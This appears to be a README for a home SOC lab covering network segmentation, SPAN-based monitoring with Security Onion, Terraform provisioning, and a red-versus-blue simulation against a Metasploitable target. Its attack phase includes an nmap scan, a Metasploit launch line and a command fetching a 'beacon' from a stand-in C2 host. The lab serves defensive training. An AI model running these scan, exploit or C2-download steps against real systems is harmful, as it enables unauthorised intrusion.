# Enterprise-scale Network Security Monitoring & Threat Detection Lab


> [!IMPORTANT]
> **LAB TESTING & DISCLAIMER CONSTRAINTS**
> * **Simulation Scope:** All attack simulations were conducted exclusively against intentionally vulnerable systems housed within fully isolated network segments.
> * **Firewall Rules:** Explicit, strict firewall allowances were enforced solely to facilitate traffic between designated lab subnets.
> * **Production Safety:** No production networks, unauthorized targets, or live real-world malicious infrastructure were interacted with or compromised at any point during this project.

**A enterprise-scale hybrid physical-virtual SOC environment demonstrating advanced network defense, threat detection engineering, and Infrastructure as Code automation.**

**Quick Links:** [Architecture Diagram](#network-architecture-diagram) | [Deep-Dive Analysis](#deep-dive-technical-analysis--design-rationales) | [Threat Simulation Guide](#lab-execution-guide-end-to-end-threat-simulation) | [Terraform Code](terraform/) | [Deployment Notes](#deployment-notes--troubleshooting)

---

## Executive Summary

This repository documents a fully operational home lab built to SOC engineering standards. It proves practical competency in network security monitoring (NSM), zero-trust segmentation, out-of-band traffic analysis, and automated infrastructure deployment—skills directly transferable to enterprise blue team and detection engineering roles.

**Business Value Proposition:**
- **Threat Detection Engineering:** Real-time intrusion detection via Security Onion using Zeek and Suricata correlation against live attack traffic.
- **Network Segmentation Strategy:** Multi-zone architecture isolating production, SOC infrastructure, attack simulation, and vulnerable victim environments with explicit deny-by-default policies.
- **Zero-Trust Enforcement:** Firewall rules that prevent lateral movement from compromised segments while maintaining full visibility through hardware SPAN mirroring.
- **Operational Automation:** Terraform-managed VMs eliminating configuration drift and enabling repeatable SOC deployments.
- **Hands-On IR Workflow:** Complete attack → detect → triage lifecycle with MITRE ATT&CK mapping and forensic documentation.

---

## Network Architecture Diagram

### High-Level Topology



### Network Segmentation Model

```mermaid
graph TD

    %% Define Nodes
    Internet((Internet)) --> Edge["Edge Router / Modem<br/>(ISP Bridge Mode)"]
    Edge --> NGFW["Stateful Firewall (NGFW)<br/>VLANs: 5, 10, 15, 20, 25"]
    
    subgraph Core_Switch [Managed Switch - Layer 2+]
        P1["Port 1: Firewall Trunk"]
        P2["Port 2: Access Port (WiFi AP)"]
        P3["Port 3: Hypervisor Trunk"]
        P4["Port 4: SPAN Destination"]
    end
    
    NGFW -->|802.1Q Trunk| P1
    
    subgraph Hypervisor [Hypervisor Platform - Type 1]
        B0["Bridge 0: Production / Trunk"]
        B1["Bridge 1: Out-of-Band (SPAN)"]
        
        subgraph VM1 [VM 1: NSM Sensor]
            V1_Mgmt["NIC0: Management<br/>(VLAN 5)"]
            V1_Sniff["NIC1: Sniffing<br/>(Promiscuous)"]
        end
        
        subgraph VM2 [VM 2: Attack Simulation]
            V2_NIC["NIC0: Attack Lab<br/>(VLAN 15)"]
        end
        
        subgraph VM3 [VM 3: Vulnerable Target]
            V3_NIC["NIC0: Victim Lab<br/>(VLAN 20)"]
        end
    end

    %% Network Connections
    P3 --- B0
    P4 -.->|SPAN Mirror Matrix| B1
    
    B0 --> V1_Mgmt
    B1 --> V1_Sniff
    B0 --> V2_NIC
    B0 --> V3_NIC

    %% Style Adjustments
    style Internet fill:#2b2b2b,stroke:#fff,stroke-width:2px;
    style NGFW fill:#1a3a5f,stroke:#fff,color:#fff;
    style P4 fill:#b33a3a,stroke:#fff,color:#fff;
```

---

## Deep Dive Technical Analysis & Design Rationales

### 1. Network Isolation & Zero-Trust Enforcement

**Network Segmentation Model:**

| Zone | VLAN | Purpose | Trust Level |
|------|------|---------|-------------|
| Production | 1 | Primary user network | High |
| Private-Network | 5 | Security infrastructure | Critical |
| TEST-NET-1 | 15 | Red team simulation | Untrusted |
| TEST-NET-2 | 20 | Vulnerable targets | Untrusted |
| TEST-NET-3 | 25 | Trusted wireless clients | Medium |
| TEST-NET-4 | 10 | Smart devices | Low |

**Firewall Policy Framework:**

- Priority 1: SOC Internet Access    → NSM sensors require threat feed updates
- Priority 2: Management Access      → Administrative access from trusted networks
- Priority 3: Inter-Zone Production  → Controlled communication between trusted zones
- Priority 4: Attack→Victim Flow     → Permit attack traffic for detection testing
- Priority 5: Lab Containment        → DROP all traffic from attack/victim to production
- Priority 6: Default Deny           → Explicit deny-all at bottom of rule stack

**Design Rationale:**

**Controlled Attack Surface:** Attack simulation traffic is explicitly permitted to vulnerable targets, generating realistic threat telemetry for detection validation.

**Victim Containment:** Post-compromise, the victim environment is completely isolated from production networks and SOC infrastructure, demonstrating defense-in-depth.

**Attack Lab Isolation:** The red team platform cannot reach production assets, preventing accidental lateral movement during testing.

**Zero-Trust NAT:** Internal zones do not perform address translation between each other, maintaining source IP integrity for forensic analysis.

To enforce a zero-trust network segmentation strategy, a series of hardware-enforced access control rules were deployed within the Sophos XG Firewall to disrupt the attack lifecycle and isolate untrusted lab zones.



---

### 2. SPAN Port Mirroring – Out-of-Band Detection

**Traffic Capture Architecture:**

The managed switch employs port mirroring (SPAN) to duplicate all traffic from critical network segments (firewall trunk + wireless AP) to a dedicated monitoring port. This port connects to a dedicated network interface on the hypervisor, bypassing the production data path entirely.

**Traffic Flow:**
Attack Traffic → Firewall → Switch Trunk →
├─ Production Path: Continue to destination
└─ SPAN Copy: → Monitor Port → NSM Sensor (Promiscuous Mode)

**Key Benefits:**

- **Complete Visibility:** Full-duplex packet capture of all inter-zone traffic
- **Zero Performance Impact:** Monitoring does not introduce latency in production path
- **Stealth Operation:** NSM sensor has no IP address on sniffing interface
- **Protocol Fidelity:** Captures Layer 2-7 without decryption or modification

---

### 3. Infrastructure as Code – Terraform-Driven SOC Deployment

**Automation Benefits:**

All virtual infrastructure is provisioned using Terraform with a hypervisor-specific provider, ensuring:

- **Configuration Consistency:** Compute resources, storage layout, and network topology defined as code
- **Drift Detection:** `terraform plan` detects manual configuration changes
- **Rapid Deployment:** Complete environment rebuild in under 10 minutes
- **Version Control:** Infrastructure changes tracked via Git with full audit trail

**Example Infrastructure Code Pattern:**

```hcl
resource "hypervisor_vm" "nsm_sensor" {
  name      = "soc-sensor"
  node_name = var.hypervisor_node

  cpu { cores = 4; type = "host" }
  memory { dedicated = 16384 }

  # Dual-disk configuration
  disk { size = 200 }  # Operating system
  disk { size = 100 }  # PCAP/log storage

  # Dual-NIC configuration
  network_device { vlan_id = 10 }  # Management
  network_device { }               # Promiscuous sniffing (no IP)
}
```
The resulting sensor configuration is shown below:
> [!WARNING]
> **Operational Risk Management Protocol** > Both the **Kali Linux (Attacker)** and **Metasploitable (Victim)** instances are strictly kept in a **powered-off state** at all times when active testing or detection engineering simulation is not taking place. This minimizes the passive attack surface of the underlying physical hypervisor.


---

## Lab Execution Guide: End-to-End Threat Simulation

### Phase 1 – Attack Execution (Red Team)

**Objective:** Execute a controlled exploit against a vulnerable target, generating full packet captures for blue team analysis.

**Step 1: Verify Network Isolation**

```bash
# From attack platform
ping <victim_target>       # Should succeed (attack path permitted)
ping <soc_sensor>          # Should timeout (blocked by firewall)
ping <production_gateway>  # Should timeout (blocked by firewall)
```

**Step 2: Reconnaissance**

```bash
nmap -sS -p 21,22,23,80,443 --reason <victim_target>
```

Expected: Vulnerable services exposed (FTP, Telnet, HTTP)


**Step 3: Exploitation & Dynamic Session Upgrades**

Launch the initial exploit module targeting the vulnerable FTP service. While the default module attempts a raw interactive shell hook, modern exploit handlers automatically capture and upgrade the underlying payload to a staged **Meterpreter binary stream** over an ephemeral transport port.

```bash
# Initialize Metasploit console and execute the exploit framework loop
msfconsole -q -x "launched exploit module targeting vulnerable FTP service"
meterpreter > shell
```

**Step 4: Post-Exploitation**

Generate detectable command execution and C2 traffic:

```bash
whoami
id
uname -a
wget http://test-c2.example.com/beacon
ping -c 3 192.168.x.x
```


---

### Phase 2 – Network Detection (Blue Team)

**1. Verify Packet Capture**

```bash
# On NSM sensor
sudo tcpdump -i <sniffing_interface> -c 100 host <victim_ip>
```

Confirm: SYN/ACK handshakes, application-layer payloads visible

**2. Alert Triage**

NSM Dashboard → Alerts → Filter by source IP

Expected Detections:
- Network reconnaissance signatures
- Exploitation attempt indicators
- Post-compromise C2 beaconing

Alerts


Rule Capture: ET INFO Executable and linking format (ELF) file download


Rule Capture: GPL ATTACK_RESPONSE id check returned root


Rule Capture: ET HUNTING curl User-Agent to Dotted Quad


**3. Protocol Analysis**

Query connection logs for full session metadata:
- Connection states
- Byte counts
- Service banners
- Certificate fingerprints

### 1. Inbound Access Control Rule (Intentionally Allowed for Exploitation)


### 2. Egress Segmentation Rule (Prevent Lateral Movement)



### Phase 3 – Incident Response

**MITRE ATT&CK Mapping:**

| Tactic | Technique | Evidence |
|--------|-----------|----------|
| Reconnaissance | T1046 | Port scan signatures |
| Initial Access | T1210 | Remote service exploitation |
| Execution | T1059 | Shell command execution |
| C2 | T1071 | Application layer protocol |

**Incident Documentation Template:**

```markdown
## Attack Summary
- **Threat Actor:**  Simulated APT / Red Team Platform
- **Entry Vector:** Backdoor Remote Service Exploitation
- **Target Asset:** Vulnerable Linux Target (`203.0.113.x`)
- **Attacker Node:** Kali Linux (`198.51.100.x`)
- **Detection Method:** Out-of-band SPAN Port Mirroring NSM Suricata Alert 
- **Containment Status:** Isolated to specific victim network via hardware-enforced rules

An unauthenticated remote attacker issued an explicit service command handshake over FTP (Port 21), which spawned an immediate dynamic upgrade to an active command shell. Post-exploitation, the attacker successfully initialized a Meterpreter Command & Control (C2) interactive console wrapper, dropped down into the native Linux system terminal shell, and performed lateral reconnaissance via ICMP ping sweeps to bypass network boundaries and discover internal management assets.

```

---

## Deployment Notes & Troubleshooting

### 1. Hypervisor VLAN Configuration

**Issue:** VMs cannot reach gateway after VLAN implementation

**Resolution:** Enable VLAN awareness on virtual bridge and configure allowed VLAN list in bridge configuration file. Restart networking service and VMs.



### 2. Firewall Object Definitions

**Issue:** Rules not matching expected traffic

**Resolution:** Ensure network objects reference entire subnets (CIDR notation) rather than individual host addresses (/32).

### 3. Layer 2 Connectivity

**Issue:** ARP resolution failures

**Resolution:** Verify bridge VLAN database includes VM's VLAN tag on corresponding tap interface. Restart VM to regenerate interface mappings.

### 4. Stateful Firewall Considerations

**Issue:** Unidirectional traffic failures

**Resolution:** Add explicit return-path rules for non-stateful scenarios (lab bidirectional attack traffic).

### 5. Emergency Isolation

A disabled-by-default firewall rule serves as a kill switch: enabling it instantly severs all SOC/lab connectivity without impacting production operations. Uses "Reject" action for immediate connection failures rather than silent drops.

---

## Skills Demonstrated

| Competency | Implementation |
|------------|----------------|
| Defense Architecture | Multi-zone segmentation, zero-trust design |
| Network Security Monitoring | Out-of-band SPAN topology, sensor deployment |
| Infrastructure Automation | Full IaC provisioning with drift detection |
| Offensive Security | Controlled exploitation, post-compromise simulation |
| Incident Response | Alert triage, forensic analysis, ATT&CK mapping |
| Systems Engineering | Virtualization, bridge networking, packet capture |

---

## Future Roadmap

- Threat intelligence feed integration (STIX/TAXII)
- Centralized SIEM with multi-source log correlation
- SOAR platform for automated response workflows
- Purple team continuous validation framework
- Hybrid cloud sensor deployment with secure backhaul

---

This project demonstrates hands-on competency in detection engineering, defensive architecture, and security automation.


---

**Documentation Version:** 1.0  
**Last Updated:** Q2 2026  
**Technology Stack:** Modern NSM Platform | Enterprise Hypervisor | IaC Tooling


